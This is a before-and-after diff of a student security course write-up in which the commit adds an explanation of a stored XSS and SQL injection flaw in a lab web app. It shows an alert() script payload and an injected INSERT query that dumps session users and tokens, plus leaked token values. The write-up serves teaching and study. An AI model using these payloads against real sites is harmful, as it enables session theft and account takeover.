

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
aCVE-2024-2, must be done?

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -329,8 +329,24 @@ And we're able to grab all the user sessions!
 <li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
 ```
 
-<li>1</li>
-<li>1:e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65<br>1:2015e754b07fb37c28ee636725d04b8743f91333ac927fe9c0eeca512246fc9c<br>159:8e25b871df997f1f1b219b96a30bda9505a60168aeae51e7d2a011c12bdba184</li>
+Let's call this Vulnerability as **Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-2)**.
+
+To explain how this works, the original SQL query takes a valid input message and passes it to the sqlite3 handler.
+
+```sql
+INSERT INTO posts (message, user) VALUES ('<script>alert(document.domain)</script>', 1);
+```
+
+However, since we have replaced the `message` with SQL injection, the query would now look like this
+
+```sql
+INSERT INTO posts (message, user) VALUES ('1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1); -- ', 1);
+```
+
+This will first insert the message `1` into **user 1** and then insert the SQL query of concatenating the results of users and tokens resulting to dumping the users and tokens.
+
+Similarly, this works for dumping the username and password.
+
 
 ---
 
````
